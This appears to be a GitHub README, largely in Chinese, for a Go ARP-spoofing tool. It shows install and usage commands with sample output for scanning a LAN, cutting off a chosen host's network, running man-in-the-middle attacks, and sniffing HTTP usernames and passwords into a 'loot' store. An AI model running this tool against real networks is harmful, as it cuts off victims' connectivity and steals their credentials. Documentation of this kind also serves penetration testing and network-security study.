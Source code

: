 # [ARP Spoofing]
<img src="https://img-blog.csdnimg.cn/20210726194704703.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzQxNTY0NA==,size_16,color_FFFFFF,t_70" width="400px">

## [Download]

```shell
go install github.com/ShangRui-hash/arp-spoofing-go@latest
```

## [Usage]
因为需要使用原始套接字，所以需要用户以root权限运行程序

```shell
/bin/bash > sudo arp-spoofing-go 
```

输入help ，查看可以使用的命令

```
阿弥陀佛 > help
- Commands:
  - clear              clear the screen
  - cut                通过ARP欺骗切断局域网内某台主机的网络
  - exit               exit the program
  - help               display help
  - hosts              主机管理功能
  - loot               查看嗅探到的敏感信息
  - middle-attack      中间人攻击
  - scan               扫描内网中存活的主机
  - set                配置参数
  - show               展示信息
  - sniff              嗅探用户名和密码
  - webspy             嗅探http报文
```

### show options
检查各项配置是否正确,如果配置不正确，可以使用 set key value 设置选项key的值为value
```
阿弥陀佛 > show options
+---------+-------------------+----------+----------------------+
|  NAME   |       VALUE       | REQUIRED |     DESCRIPTION      |
+---------+-------------------+----------+----------------------+
| ifname  |        en0        |   true   |     监听哪个网卡     |
+---------+-------------------+          +----------------------+
|  range  | 192.168.31.117/24 |          |       扫描范围       |
+---------+-------------------+          +----------------------+
| method  |        arp        |          | 扫描方式:all,arp,udp |
+---------+-------------------+          +----------------------+
| gateway |   192.168.31.1    |          |     局域网的网关     |
+---------+-------------------+----------+----------------------+
ARP Scan Options
```
### scan 扫描局域网中的主机
```
阿弥陀佛 > scan
[===================>] 99% 
```
### hosts 查看所有扫描到的主机
```
阿弥陀佛 > hosts
+----+----------------+-------------------+--------------------------------+
| ID |       IP       |        MAC        |            MACINFO             |
+----+----------------+-------------------+--------------------------------+
| 0  |  192.168.31.1  | ec:41:18:d9:a2:b9 |   XIAOMI Electronics,CO.,LTD   |
+----+----------------+-------------------+--------------------------------+
| 1  | 192.168.31.71  | 50:98:39:03:24:5e |  Xiaomi Communications Co Ltd  |
+----+----------------+-------------------+--------------------------------+
| 2  | 192.168.31.149 | ba:52:72:92:ea:f4 |                                |
+----+----------------+-------------------+--------------------------------+
| 3  | 192.168.31.168 | 8a:c4:6b:ac:25:49 |                                |
+----+----------------+-------------------+--------------------------------+
| 4  | 192.168.31.196 | 94:87:e0:37:af:37 |  Xiaomi Communications Co Ltd  |
+----+----------------+-------------------+--------------------------------+
| 5  | 192.168.31.200 | 50:5b:c2:c9:e8:d1 | Liteon Technology Corporation  |
+----+----------------+-------------------+--------------------------------+
| 6  | 192.168.31.222 | 3c:a5:81:94:43:25 | vivo Mobile Communication Co., |
|    |                |                   |              Ltd.              |
+----+----------------+-------------------+--------------------------------+
| 7  | 192.168.31.224 | 50:5b:c2:e9:e5:03 | Liteon Technology Corporation  |
+----+----------------+-------------------+--------------------------------+
```
### cut 向某台主机发送arp欺骗报文,启动后 发送数据包的协程将在后台默默运行
```
which host do you want to attack?
 ❯ 192.168.31.200
   192.168.31.222
   192.168.31.224
   192.168.31.1
   192.168.31.71
   192.168.31.149
   192.168.31.168
   192.168.31.196
```
```
Deceit gateway or target?
 ❯ gateway
   target
```
```
Send Reply packet or Request packet?
 ❯ request
   reply
```
```
+----------------+--------------+----------+--------+
|      目标      |     网关     | 欺骗方式 | 包类型 |
+----------------+--------------+----------+--------+
| 192.168.31.222 | 192.168.31.1 |  target  | reply  |
+----------------+--------------+----------+--------+
[*] 欺骗协程启动成功
[*] show cutted 查看当前正在被攻击的设备
```
### show cutted  查看当前正在被攻击的设备
```
阿弥陀佛 > show cutted
+----------------+
|  CUTTED HOSTS  |
+----------------+
| 192.168.31.222 |
+----------------+
```
### stop cut 停止发送
```
Please select host.
 ❯ 192.168.31.222
Stop cutting: 192.168.31.222
```

其他功能：
- webspy 可以嗅探所有流经本机网卡的http包,启动webspy前，建议向使用middleattack将目标主机的流量导过来
<img src="https://img-blog.csdnimg.cn/2021072619170764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzQxNTY0NA==,size_16,color_FFFFFF,t_70"/>
- sniff 嗅探有敏感信息的http数据包，并存入redis，可以通过loot命令查看收集到的数据包

# [TODO] 

3. 优化webspy的功能
4. 检查中间人攻击模块 篡改数据包的mac地址是否确实篡改了
如果确实篡改了，为什么 wireshark 抓不到
5. 解决本主机在启动中间人攻击模块后上网慢的问题
6. 设置一个过滤器，只监听欺骗双方的数据包,查下过滤器的语法